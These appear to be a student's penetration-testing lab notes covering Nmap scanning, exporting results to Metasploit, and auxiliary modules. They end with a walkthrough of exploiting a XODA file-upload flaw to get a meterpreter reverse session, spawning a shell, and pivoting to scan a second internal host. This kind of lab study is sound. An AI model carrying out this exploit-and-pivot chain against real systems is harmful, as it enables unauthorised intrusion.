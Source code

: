 # 03_Enumeration

## Nmap Scripting Engine (NSE)

### Discover, Scan and Export NMAP Scan Results (Example)

Discover available live hosts and their open ports using Nmap and identify the running services and applications.
 
- ping demo.ine.local --> bocked
- nmap demo.ine.local --> blocked
- nmap -Pn demo.ine.local --> worked
- nmap -Pn -sV -O demo.ine.local --> for ServiveVersion and OSVersion
- nmap -Pn -sV -O demo.ine.local -oX windows_server_2012 --> Creates xml file and inserts informations

### Nmap Output Formats

 - `-oN` = normal format, saves result how you see it 
 - `-oX` = xml format, offers a conversion layer and import it into metasploit framework 
 - `-oS` = Script kiddie
 - `-oG` = outputs scan results in grepable format
 - `-oA` = all 3 normal formats at once (oN, oX, oG) 
 - `-v` = Increase verbosity 
 - `--reason` = displays the reason a port is in a particular state
 - Example: `nmap -Pn -sS -F -T4 [target IP] -oN \path\filename.txt`

### Import nmap scan results in metasploit framework (xml format output):
- `service postgresql start`
- `msfconsole`
- msf6: `workspace -h`
- msf6: `workspace -a pentest_1`
- msf6: `workspace`
- msf6: `db_status`, check status, is msf connected to the postgresql database where the data is stored?
- msf6s: `dbimport nmap_xml.xml`
- msf6s: `hosts`
- msf6: `services`
- msf5: `nmap -Pn -sS -sV -O -p445 [target IP] `
- msf6s: `hosts`, metasploit framework updates file
- Grepable Format: `nmap -Pn -sS -F -T4 [target IP] -oG nmap_grep.txt`
- `cat nmap_gep.txt`, we see that its a grepable format

### Importing Nmap Scan Results into MSF

- Exporting Nmap scan: `nmap -Pn -sV -O -oX nmapscan.xml demo.ine.local`
- Start postgresql database service: `service postgresql start`
- Start the Metasploit Framework console: `msfconsole`
- Verify that the MSF database is connected: `db_status`
- Import the the Nmap Scan Results: `db_import nmapscan.xml`
- Check the results: `hosts` and `services`

### Auxiliary Modules
An Auxiliary Module is a type of module within a system that includes exploits without payloads and enhances the functionality of the system by performing tasks like remote system scanning and fingerprinting. They are used to perform functionality, discovery and fuzzing. Against NMAP scans, auxiliary modules are more effective in the post-exploitation phase because they allow us to identify whether the server or PC, whose IP we have, is part of an internal network. Additionally, this may enable us to exploit other devices.

**Practical:**
- First check your IP address: `ifconfig`
- Make sure the postgreSQL service is started: `service postgresql start`
- Start msfconsole: `msfconsole`
- Check Database status: `db_status` If connection type = postgresql everything is allright.
- Add a Workspace: `workspace -a "examplename"`
- You can check the current workspace your working in with`workspace` (the res star shows your selected workspace)
- You can change the current workspace with `workspace "name of the workspace you want"`
- Search Auxiliary Modules: `search (portscan)`
- You can select and use a module by: `use (name of the module or number)`
- `show options`
- Set the RHOST `set RHOSTS 192.168.20.3`
- execute the module: `run`
- downloading the webpage of the IP adress to what we can identify: `curl 192.168.20.3`

**Run udp_sweep**
- `search udP_sweep`
- `run auxiliary/scanner/discovery/udp_sweep`
- `show options`
- `set RHOST 192.168.20.3`
- `run`

**Exploiting XODA-Service (what we just curled)**set
- `search Xoda`
- `use exploit/unix/webapp/xoda_file_upload`
- `show options`
- `set RHOSTS 192.168.20.3`
- set Path on the Xoda device to root: `set TARGETURI /`
- run our exploit: `exploit`
- It did not work Problemsolving: I had to set LHOST because I have bound to a loopback address by default(127.0.0.1): `set LHOST 192.198.6.2`(my IP)
- `exploit` run exploit again, it worked and we received a meterpreter session.
- `sysinfo` to get Informations of the Targentmachine
- We want to execute a Portscan on the second machine in the network:
- `shell` open shell session
- `/bin/bash -i` spawn a bash session to run commands easily
- `ifconfig` to get the Target IP
- Ctrl C to go back to meterpreter
- `run autorun -s 192.102.202.2` set the address route and provide the subnet
- `background` background session 1
- `sessions` view your sessions
- `search portscan`
- `use 5`
- `set RHOSTS 192.102.202.3`
- Because we already configured the route(so that the Scan comes from the exploited machine) we can run the scan: `run`
- leave module: `back`

## Service Enumeration
